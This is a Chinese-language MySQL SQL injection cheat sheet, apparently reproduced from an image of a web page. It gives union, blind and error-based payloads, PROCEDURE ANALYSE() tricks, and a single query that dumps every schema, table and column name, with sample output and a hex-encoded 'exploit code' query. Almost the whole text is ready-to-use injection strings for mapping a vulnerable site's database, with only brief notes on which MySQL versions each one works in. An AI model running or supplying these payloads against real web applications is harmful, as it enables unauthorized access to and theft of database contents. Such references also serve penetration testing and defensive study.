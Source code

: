 #### 查询表名

三种方式：

|       Union 方式      |       UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;-- MySQL 4 版本时用 version=9，MySQL 5 版本时用 version=10      |
|       盲注      |       AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'      |
|       报错      |       AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))        (@:=1)&#124;&#124;@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @&#124;&#124;MIN(@:=0);        AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));--        在 5.1.5 版本中成功。 |

####           查询列名

|             Union 方式          |               UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'          |
|               盲注              |               AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'              |
|               报错              |               AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))                (@:=1)&#124;&#124;@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @&#124;&#124;MIN(@:=0);                AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- 在 5.1.5 版本中成功。                AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- MySQL 5.1 版本修复了 |
|                     利用 PROCEDURE ANALYSE()                    |                     这个需要 web 展示页面有你所注入查询的一个字段。                      例子: 查询语句
SELECT username, permission FROM Users WHERE id = 1;                      1 PROCEDURE ANALYSE() 获得第一个段名
1 LIMIT 1,1 PROCEDURE ANALYSE() 获得第二个段名
1 LIMIT 2,1 PROCEDURE ANALYSE() 获得第三个段名 |

#### 一次查询多个表或列

```
SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema&gt;=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] &gt;',table_name,' &gt; ',column_name))))x 
```

例子：

```
SELECT * FROM Users WHERE id = '-1' UNION SELECT 1, 2, (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema&gt;=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] &gt;',table_name,' &gt; ',column_name))))x), 4--+'; 
```

输出结果：

```
 [ information_schema ] >CHARACTER_SETS > CHARACTER_SET_NAME
 [ information_schema ] >CHARACTER_SETS > DEFAULT_COLLATE_NAME
 [ information_schema ] >CHARACTER_SETS > DESCRIPTION
 [ information_schema ] >CHARACTER_SETS > MAXLEN
 [ information_schema ] >COLLATIONS > COLLATION_NAME
 [ information_schema ] >COLLATIONS > CHARACTER_SET_NAME
 [ information_schema ] >COLLATIONS > ID
 [ information_schema ] >COLLATIONS > IS_DEFAULT
 [ information_schema ] >COLLATIONS > IS_COMPILED 
```

利用代码：

```
SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns 
```
